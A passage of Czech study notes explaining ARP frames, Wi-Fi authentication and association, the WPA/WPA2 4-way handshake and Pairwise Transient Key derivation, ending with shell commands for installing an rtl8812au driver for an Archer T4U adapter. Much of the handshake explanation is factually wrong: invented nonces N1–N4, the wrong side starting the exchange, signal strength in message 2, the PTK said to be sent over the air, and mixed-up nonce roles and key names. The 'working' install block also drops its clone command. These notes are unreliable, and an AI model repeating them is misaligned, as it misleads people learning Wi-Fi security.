                - Zdrojová IP adresa: IP adresa odpovídajícího zařízení (zařízení, které odpovídá na ARP Request).
                - Zdrojová MAC adresa: MAC adresa odpovídajícího zařízení.
                - Cílová IP adresa: IP adresa zařízení, pro které byla cílová MAC adresa vyhledána.
                - Cílová MAC adresa: MAC adresa zařízení, pro které byla odpověď poskytnuta.

        - Použití:
            - Když zařízení potřebuje komunikovat s jiným zařízením v lokální síti a zná pouze jeho IP adresu, zařízení zašle ARP Request s dotazem na MAC adresu tohoto zařízení.
            - Cílové zařízení odpovídá pomocí ARP Response s informacemi o své MAC adrese.
            - Odesílatel ARP Requestu si nyní může uložit odpověď do ARP cache, aby nemusel opakovaně dotazovat síť na stejnou informaci.
    - ARP rámce jsou základním prvkem v lokálních sítích, protože umožňují zařízením získávat informace o MAC adresách dalších zařízení v síti, což je nezbytné pro úspěšnou komunikaci na datalinkové vrstvě OSI modelu.

Tyto rámce spolu tvoří proces inicializace a připojení zařízení k Wi-Fi síti. Jejich vzájemná komunikace umožňuje efektivní přenos dat a zajistí správnou identifikaci a autentizaci připojovaných zařízení.

## Posílání hesla:
Při připojování k Wi-Fi síti je heslo obvykle přenášeno v rámci tzv. "4-Way Handshake" (4-fázové rukopisu). Tento proces zabezpečuje, že heslo není přenášeno přímo veřejně, ale je chráněno proti odposlechu. Čtyři fáze tohoto rukopisu zahrnují následující rámcové typy:
- Authentication Request/Response:
    - V této fázi klient posílá žádost o autentizaci (Authentication Request) k přístupovému bodu.
    - Přístupový bod odpovídá (Authentication Response) potvrzením nebo zamítnutím autentizačního požadavku.

- Association Request/Response:
    - Klient odesílá Association Request rámec, což je žádost o oficiální připojení k síti.
    - Přístupový bod odpovídá Association Response rámcem, což ukončuje proces asociace.

- **4-Way Handshake:** [1], str. 2029
    1. EAPOL (Extensible Authentication Protocol over LAN) Key Frame (Message 1):
        - Klient posílá tento rámec k přístupovému bodu s požadavkem na spuštění 4-Way Handshake.
        - Tento rámec obsahuje náhodný číselný nonce (N1) od klienta.
    2. EAPOL Key Frame (Message 2):
        - Přístupový bod odpovídá na první rámec a posílá zpět svůj náhodný číselný nonce (N2) a informaci o síle signálu.
        - Tento rámec obsahuje také informaci o Pairwise Transient Key (PTK), což je dočasný klíč používaný pro šifrování komunikace.
    3. EAPOL Key Frame (Message 3):
        - Klient potvrzuje přijetí informací o PTK a posílá zpět náhodný číselný nonce (N3).
    4. EAPOL Key Frame (Message 4):
        - Přístupový bod potvrzuje přijetí informací od klienta a posílá poslední náhodný číselný nonce (N4).
        - Po obdržení tohoto rámce je 4-Way Handshake dokončen.

- Ve fázích 3 a 4 handshakeu jsou obsaženy všechny informace potřebné pro odvození klíčů pro šifrování (Pairwise Transient Key - PTK) a autentizaci (Message Integrity Code - MIC). **Heslo samo o sobě není přenášeno v síti, což zvyšuje bezpečnost procesu připojování k Wi-Fi síti.**

## Pairwise Transient Key:
Pairwise Transient Key (PTK) je dočasný klíč používaný pro šifrování komunikace mezi jedním konkrétním klientem a přístupovým bodem v bezdrátové síti. PTK je vytvořen během procesu 4-Way Handshake v rámci WPA (Wi-Fi Protected Access) nebo WPA2 (Wi-Fi Protected Access 2), což jsou bezpečnostní protokoly používané v Wi-Fi sítích.

- Pro vytvoření PTK jsou využity následující informace a prvky:
    - Pre-Shared Key (PSK): Jedná se o heslo, které je sdíleno mezi klientem a přístupovým bodem. Toto heslo je předem známo a používá se k inicializaci bezpečnostního procesu.
    - Nonce (N1, N2, N3, N4): Náhodná čísla generovaná během 4-Way Handshake. Klient a přístupový bod si mezi sebou vyměňují nonce, která jsou následně použita k vytvoření klíče.
    - MAC (Media Access Control) adresa klienta a přístupového bodu: Unikátní adresy, které identifikují jednotlivá zařízení v síti.
    - SSID (Service Set Identifier): Identifikátor sítě.
    - PMK (Pairwise Master Key): Hlavní klíč vytvořený z PSK a SSID během procesu autentizace.
    - Anonce a Snonce: Náhodná čísla, která jsou generována klientem a přístupovým bodem, a jsou součástí 4-Way Handshake.

- Proces vytváření PTK probíhá následujícím způsobem během 4-Way Handshake:
    - Výpočet PMK: PMK je odvozen z PSK a SSID během fáze autentizace.
    - Výpočet PTK:
        - Klient a přístupový bod použijí PMK, Anonce (klient), Snonce (přístupový bod), MAC adresy a další informace ke vytvoření PTK.
        - PTK se skládá z několika klíčů, včetně klíče pro šifrování dat (Pairwise Temporal Key - PTK-TK), klíče pro kontrolu integrity dat (Pairwise Temporal Key - PTK-KCK), a klíče pro šifrování zpráv (Pairwise Temporal Key - PTK-KEK).
    - Dokončení 4-Way Handshake:
        - PTK je přenášen v rámci 4-Way Handshake zpráv, které jsou zabezpečeny pomocí PTK.
        - Po dokončení 4-Way Handshake je PTK vytvořen a obě strany (klient a přístupový bod) mohou začít používat vytvořené klíče pro šifrování komunikace.

- PTK zajišťuje, že každá dvojice klient-přístupový bod má své vlastní unikátní klíče pro šifrování a zajištění integrity dat. Tím je dosaženo individuální bezpečnosti pro každé připojení v bezdrátové síti.

===
# Instalace driveru Atheros Archer T4u v2
- záloha: https://github.com/cilynx/rtl88x2bu
- záloha: https://github.com/RinCat/RTL88x2BU-Linux-Driver

### Nefungující postup:
```
git clone https://github.com/gnab/rtl8812au
cd rtl8812au
make
sudo cp 8812au.ko /lib/modules/$(uname -r)/kernel/drivers/net/wireless/
sudo depmod -a
sudo modprobe 8812au
```
### Fungující postup!!!:
```
https://github.com/aircrack-ng/rtl8812au
cd rtl*
sudo make dkms_install
sudo reboot
```
```
(odinstalace sudo dkms_remove)
make && make install
```